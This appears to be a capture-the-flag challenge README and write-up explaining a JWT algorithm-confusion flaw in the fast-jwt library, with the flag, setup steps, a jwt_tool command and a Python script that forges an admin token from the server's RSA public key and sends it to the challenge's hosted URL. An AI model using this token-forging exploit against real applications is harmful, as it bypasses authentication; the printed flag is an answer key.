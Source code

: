 ## Description
Bruh, Tanjiro messed up BIG TIME. 😭 He hid Goku’s summoning scroll somewhere on this cursed website, and now it’s all broken. 💀 If we don’t find it fast, Goku’s never showing up, and we’re all doomed. No cap, this might be the hardest quest yet. Think you got what it takes? 👀🔥   Can you wield your skills like Tanjiro’s blade and break through the encrypted defenses? 

- **Author:** [Afdul]  
- **Flag:** `apoorvctf{qWe_jwt_qWe}`  

## Setup Instructions
1. Build and run the challenge using:  
   ```sh
   docker build -t my-app .
   docker run -d -p 3000:3000 --name my-container my-app


    ```

## Writeup
The challenge is based on a known vulnerability is fast-jwt library.
The publicKeyPemMatcher function in fast-jwt/src/crypto.js does not correctly recognize all standard PEM formats for public keys. This flaw allows an attacker to generate a malicious JWT token using the HS256 algorithm, signed with the victim application's RSA public key. The attack is successful only if the victim application relies on a public key formatted with the BEGIN RSA PUBLIC KEY header.
![home](images/home.png)
### Steps to solve the challenge:
1. Extract the public key from ```/public``` url.
![public_key](images/public.png)
2. Notice that /login generates a random token which is a JWT token.
![token](images/token.png)
3. Use the public key to decrypt the token and verify the public key.
![decrypt](images/decrypt.png)
4. The header shows that the algorithm is RS256 which validates Asymmetric key cryptography, Notice the payload contains admin false , If we can change that value to true we should be all set, However altering it would mess with the signature and fail the verification check.

5. We can use the vulnerability in the fast-jwt library to generate a new token with the same signature as the original token but with the payload altered to admin true.
The library is vulnerable to a known attack that allows an attacker to generate a malicious JWT token using the HS256 algorithm, signed with the victim application's RSA public key.
6. Use a tool like jwt_tool to generate the new token.
```sh
    python3 jwt_tool.py  --exploit k -pk ../public_key.pem token
```
![new_token](images/new_token.png)
7. Use the new token as a query parameter in the /admin url to get the flag.
```sh
    curl http://localhost:3000/admin?token=eyJ
```
![home](images/final.png)
8. The flag is displayed on the screen.
```sh
    apoorvctf{qWe_jwt_qWe}
```

## Faster Solution
``` python
import jwt
import datetime

public_key = open("key.pem").read()
issued_at = int(datetime.datetime.utcnow().timestamp()) 
payload = {
    "admin": True,
    "name": "admin",
    "iat": issued_at
}

# Note this will give an error cuz jwt checks hs256 dosent use public key, a solution is to just remove the raise error from the library
jwt_token = jwt.encode(payload, public_key, algorithm="HS256")

print(f"Generated JWT: {jwt_token}")


import requests
url = "https://tan-je-ro.onrender.com/admin?token=" + jwt_token

print(f"Sending request to {url}")
response = requests.get(url)
print(f"Response: {response.text}")

```

And that's it! You have successfully solved the challenge. 🎉🎉🎉
```

